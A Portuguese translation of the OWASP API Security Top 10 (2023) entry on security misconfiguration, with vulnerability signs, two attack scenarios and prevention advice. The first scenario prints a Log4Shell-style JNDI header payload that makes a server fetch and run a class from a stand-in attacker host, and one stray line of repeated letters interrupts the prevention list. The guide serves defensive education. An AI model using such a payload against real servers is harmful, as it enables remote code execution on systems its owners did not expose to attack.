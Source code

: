 # API8:2023 Security Misconfiguration

| Agentes Ameaça/Vetores Ataque | Falha Segurança | Impactos |
| - | - | - |
| Específico da API : Abuso **Fácil** | Prevalência **Predominante** : Detectability **Fácil** | Técnico **Severo** : Específico do Negócio |
| Os atacantes frequentemente tentam encontrar falhas não corrigidas, _endpoints_ comuns, serviços a funcionar com configurações padrão inseguras ou arquivos e diretórios não protegidos para obter acesso não autorizado ou conhecimento do sistema. A maior parte disto é conhecimento público e os _exploits_ podem estar disponíveis. | A má configuração de segurança pode ocorrer em qualquer nível da API, desde o nível da rede até o nível da aplicação. Ferramentas automatizadas estão disponíveis para detectar e explorar más configurações, como serviços desnecessários ou opções antigas. | As más configurações de segurança não expõem apenas dados sensíveis dos utilizadores, mas também detalhes do sistema que podem levar a um compromisso total do servidor. |

## A API é vulnerável?

A API pode ser vulnerável se:

* As devidas proteções de segurança não foram aplicadas em qualquer parte da
  API, ou se houver permissões mal configuradas em serviços de nuvem.
* Os últimos _patches_ de segurança estão em falta ou os sistemas estão
  desatualizados.
* Funcionalidades desnecessárias estão ativadas (por exemplo, verbos HTTP,
  funcionalidades de registo de eventos).
* Existem discrepâncias na forma como os pedidos são processados pelos
  servidores na cadeia de servidores HTTP.
* A Segurança da Camada de Transporte (TLS) está em falta.
* Diretivas de segurança ou de controlo de cache não são enviadas aos clientes.
* Uma política de Partilha de Recursos entre Origens (CORS) está em falta ou mal
  configurada.
* As mensagens de erro incluem _stack traces_ ou expõem outras informações
  sensíveis.

## Exemplos de Cenários de Ataque

### Cenário #1

Um servidor de API _back-end_ mantém um registo de acesso escrito por uma 
utilidade de registo _open-source_ popular de terceiros, com suporte para 
expansão de espaços reservados e pesquisas JNDI (Java Naming and Directory 
Interface), ambos ativados por defeito. Para cada pedido, uma nova entrada é 
escrita no ficheiro de registo com o seguinte padrão: 
`<method> <api_version>/<path> - <status_code>`.

Um ator malicioso emite o seguinte pedido de API, que é escrito no ficheiro de
registo de acesso:

```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

Devido à configuração padrão insegura da utilidade de registo e a uma política 
de rede de saída permissiva, para escrever a entrada correspondente no registo 
de acesso, ao expandir o valor no cabeçalho `X-Api-Version` do pedido, a 
utilidade de registo irá buscar e executar o objeto `Malicious.class` do 
servidor controlado remotamente pelo atacante.

### Cenário #2

Um site de rede social oferece uma funcionalidade de "Mensagem Direta" que 
permite aos utilizadores manter conversas privadas. Para recuperar novas 
mensagens de uma conversa específica, o site emite o seguinte pedido de API (a 
interação do utilizador não é necessária):

```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Como a resposta da API não inclui o cabeçalho de resposta HTTP `Cache-Control`, 
as conversas privadas acabam por ser armazenadas em cache pelo navegador, 
permitindo que agentes mal-intencionados as recuperem dos ficheiros de cache do 
navegador no sistema de ficheiros.

## Como Prevenir

O ciclo de vida da API deve incluir:

* Um processo de proteção reprodutível que possa ser implantado de forma fácil
  e rápida com vista a um ambiente de execução devidamente protegido.
* Um processo de revisão e atualização de todas as camadas da API. A revisão
  deve incluir: ficheiros de orquestração, componentes da API e serviços na
  nuvem (e.g., permissões dos _buckets_ S3).
* Um processo automatizado para verificar de forma continua as configurações e
  definições em todos os ambientes (produção, _staging_, testes,
  desenvolvimento).

E ainda:

* Assegure que todas as comunicações de API, do cliente para o servidor de API e
  qualquer componente _downstream_/_upstream_, ocorram através de um canal de
  comunicação encriptado (TLS), independentemente de se tratar de uma API
  interna ou pública.
* Seja específico sobre quais verbos HTTP cada API pode utilizar: todos os
  outros verbos HTTP devem ser desativados (por exemplo, HEAD).
* As APIs que esperam ser acedidas a partir de clientes baseados em navegador
  (por exemplo, aplicação web _front-end_) devem, pelo menos:
  * implementar uma política adequada de Partilha de Recursos entre Origens
    (CORS).
  * incluir os Cabeçalhos de Segurança aplicáveis.
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
* Restrinja os tipos de conteúdo/formatos de dados recebidos àqueles que cumprem
  os requisitos funcionais/de negócio.
* Assegure que todos os servidores na cadeia de servidores HTTP (por exemplo,
  balanceadores de carga, proxies reversos e diretos, e servidores de
  _back-end_) processem os pedidos de entrada de forma uniforme para evitar
  problemas de dessincronização.
* Quando aplicável, defina e faça cumprir todos os esquemas de dados de resposta
  da API, incluindo respostas de erro, para evitar que informações de exceções e
  outras informações valiosas sejam enviadas para os atacantes.

## Referências

### OWASP

* [OWASP Secure Headers Project][1]
* [Configuration and Deployment Management Testing - Web Security Testing
  Guide][2]
* [Testing for Error Handling - Web Security Testing Guide][3]
* [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### Externas

* [CWE-2: Environmental Security Flaws][5]
* [CWE-16: Configuration][6]
* [CWE-209: Generation of Error Message Containing Sensitive Information][7]
* [CWE-319: Cleartext Transmission of Sensitive Information][8]
* [CWE-388: Error Handling][9]
* [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response
  Smuggling')][10]
* [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
* [Guide to General Server Security][12], NIST
* [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/
